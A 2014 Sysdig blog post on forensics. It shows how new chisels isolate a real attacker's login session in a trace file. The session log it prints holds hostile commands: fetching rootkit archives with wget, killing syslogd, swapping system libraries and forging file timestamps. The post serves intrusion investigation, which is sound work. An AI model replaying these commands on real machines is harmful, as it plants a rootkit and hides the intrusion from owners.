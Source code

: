 ```yaml
---
ID: 231
post_title: 'Fishing for Hackers (Part 2): Quickly Identify Suspicious Activity With Sysdig'
author: Loris Degioanni
post_excerpt: ""
layout: post
permalink: >
  https://sysdigrp2rs.wpengine.com/blog/fishing-for-hackers-part-2/
published: true
post_date: 2014-07-02 09:00:21
---
```

In our recent [Fishing for Hackers][1] blog post, we explored a sysdig trace of an actual system breach from an actual malicious attacker. Based on the interest in that post, and the great feedback that we've received since publishing it, we decided to spend some time making the forensics features of [sysdig][2] even better. Updates in the [latest release][3] include: 
*   A new chisel, list_login_shells
*   Improvements to the spy_users chisel
*   Additional useful filter fields In this post, I'd like to show you how to use these new features to investigate your trace files with even more ease, and quickly identify that prime catch. 

## Sorting Through the Fishing Net

Other than in trivial situations, the commands executed on a unix system are launched from multiple login sessions, each of which can either be strictly interactive, or run scripts, or a mix of the two. From the forensics point of view, it’s important to quickly uncover the “interesting” sessions, separating them from noisy scripts - this is usually nontrivial and time intensive.

The revamped spy_users chisel provides better support for this kind of investigation. Let’s apply it to the trace file captured for the original Fishing for Hackers blog post.

<pre>sysdig -r trace.scap.gz -c spy_users
4893 01:39:38 root) /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc
update-motd.d
4893 01:39:38 root) run-parts --lsbsysinit /etc/update-motd.d
4893 01:39:38 root) /bin/sh /etc/update-motd.d/00-header
4893 01:39:38 root) uname -o
4893 01:39:38 root) uname -r
4893 01:39:38 root) uname -m
4893 01:39:38 root) /bin/sh /etc/update-motd.d/10-help-text
4893 01:39:38 root) grep -qs -server
4893 01:39:38 root) uname -r
4893 01:39:38 root) /bin/sh /etc/update-motd.d/50-landscape-sysinfo
4893 01:39:38 root) grep -c ^processor /proc/cpuinfo
4893 01:39:38 root) bc
4893 01:39:38 root) cut -f1 -d /proc/loadavg
4893 01:39:38 root) /bin/date
4893 01:39:38 root) /usr/bin/python /usr/bin/landscape-sysinfo
4893 01:39:38 root) sh -c /sbin/ldconfig -p 2&gt;/dev/null
4893 01:39:38 root) /bin/sh /sbin/ldconfig -p
4893 01:39:38 root) /sbin/ldconfig.real -p
4893 01:39:38 root) sh -c /sbin/ldconfig -p 2&gt;/dev/null
4893 01:39:38 root) /bin/sh /sbin/ldconfig -p
4893 01:39:38 root) /sbin/ldconfig.real -p
…
</pre>

You can notice a couple of things:

*   Each line begins with a number: that’s the pid of the first shell of the session, in other words a unique ID for the session. That way, it’s possible to follow a specific session even when several of them are active at the same time.
*   The executed commands are indented, based on the following rule: when a new shell is executed, the indentation increases. This is useful because, typically, a shell that executes another shell is running a script. Thus, the indentation clearly separates real users’ interactions from the scripts they execute.

Since interesting activity usually happens at higher levels in the tree (ie. less indentation), spy_users now includes an optional argument to filter the output based on the indentation level. For example

<pre>sysdig -r trace.scap.gz –c spy_users 0</pre>

will only show activity in an original starting shell, while

<pre>sysdig -r trace.scap.gz –c spy_users 1</pre>

will show activity in that shell and its children.

## Finding the Prime Catch

Still, even with this improved readability, finding the needle in the haystack can be challenging, especially on busy machines. Fortunately, the new list_login_shells chisel comes to our rescue. In the simplest case, this chisel shows the ids of all the login sessions detected in the trace file. Let’s try it!

<pre>sysdig.exe -r trace.scap.gz -c list_login_shells
All shells:
7791
7588
7604
5580
7628
7632
7601
7573
5322
7625
7737
7773
7660
7658
7655
7598
7610
7619
7574
7654
5582
7622
5052
7581
7584
4893
7591
5578
5459
5574
7616
7595
7607
5564
7575
5575
7613
7631
</pre>

Quite a lot of activity! 38 sessions, to be precise. We know one of them contains a successful hacker penetration, but which one is it?

list_login_shells has two optional parameters. The first one makes it possible to search for sessions that contain the specified command name, while the second one does the same but with the command arguments.

In the context of detecting attacks, interesting sessions tend to contain commands like ssh and wget, and arguments that include /etc or /bin. In this case, I’m going to search for the execution of tar, assuming it’s a good indication that someone is trying to install something on my system:

<pre>sysdig.exe -r g.scap -c list_login_shells tar
Shells containing tar:
5459</pre>

Much better, this time I get only one session! Now I can use the proc.loginshellid sysdig filter field to restrict the output of spy_users.

<pre>sysdig.exe -r trace.scap.gz -c spy_users proc.loginshellid=5459
5459 01:47:10 root) groups
5459 01:47:10 root) uname -s
5459 01:47:10 root) sed -ne /^# START exclude/,/^# FINISH exclude/p /etc/bash_completion
5459 01:47:10 root) ls /etc/bash_completion.d
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:11 root) sed s,x,x,
5459 01:47:11 root) sed s,x,x,
5459 01:47:11 root) /bin/sh /usr/bin/lesspipe
5459 01:47:11 root) basename /usr/bin/lesspipe
5459 01:47:11 root) dirname /usr/bin/lesspipe
5459 01:47:11 root) cd /usr/bin
5459 01:47:11 root) dircolors -b
5459 01:47:11 root) mesg n
5459 01:48:13 root) cd /usr/sbin
5459 01:48:15 root) mkdir .shm
5459 01:48:17 root) cd /usr/sbin/.shm
5459 01:48:18 root) wget XXX/l.tgz
5459 01:48:20 root) tar zxvf l.tgz
5459 01:48:20 root) gzip -d
5459 01:50:40 root) ps -x
5459 01:50:43 root) ps -x
5459 01:50:47 root) w
5459 01:50:50 root) passwd
5459 01:52:21 root) cd /usr/sbin
5459 01:52:21 root) wget XXX/rk.tar
5459 01:52:24 root) tar xvf rk.tar
5459 01:52:24 root) rm -rf rk.tar
5459 01:52:24 root) cd /usr/sbin/rk
5459 01:52:24 root) /bin/bash ./root whathefuckyouwant 1157
5459 01:52:24 root) sleep 5
5459 01:52:29 root) tar zxf mafixlibs
5459 01:52:29 root) gzip -d
5459 01:52:29 root) whoami
5459 01:52:29 root) cd /usr/sbin/rk
5459 01:52:29 root) sleep 1
5459 01:52:30 root) killall -9 syslogd
5459 01:52:30 root) date +%S
5459 01:52:30 root) uname -n
5459 01:52:30 root) mv bin/lib/libproc.a /lib/
5459 01:52:30 root) mv bin/lib/libproc.so.2.0.6 /lib/
5459 01:52:30 root) /bin/sh /sbin/ldconfig
5459 01:52:30 root) /sbin/ldconfig.real
5459 01:52:31 root) cd /usr/sbin/rk/bin
5459 01:52:31 root) md5sum
5459 01:52:31 root) touch -acmr /bin/ls /etc/sh.conf
...
</pre>

Look at how clean this trace is. A hacker catch in all its splendor. Including the download of multiple malicious files and the execution of scripts with names such as whathefuckyouwant. And it keeps going on and on.

## Conclusion

Hopefully these new features make it even easier for you to explore users' activity within your sysdig traces (whether malicious or not!). In order to leverage the features shown in this post, make sure to update to the latest version of sysdig (instructions [here][4]). And as always, if you have comments, questions, or proposals for improvements, please let us know in the comments on Hacker News using the link below.

 

Thanks for reading our “Fishing for Hackers” blog post! We’re actually looking to create something security-specific with Sysdig and were looking for companies to brainstorm with. Do you have time to meet me next week to discuss? [Contact us here][5] and we’ll set up a meeting with Loris, the creator of sysdig.

 [1]: https://sysdigrp2rs.wpengine.com/fishing-for-hackers/
 [2]: http://www.sysdig.org/
 [3]: https://sysdigrp2rs.wpengine.com/announcing-sysdig-0-1-84/
 [4]: https://github.com/draios/sysdig/wiki/Sysdig%20Update%20and%20Uninstall
 [5]: http://goo.gl/forms/hvno47KgnS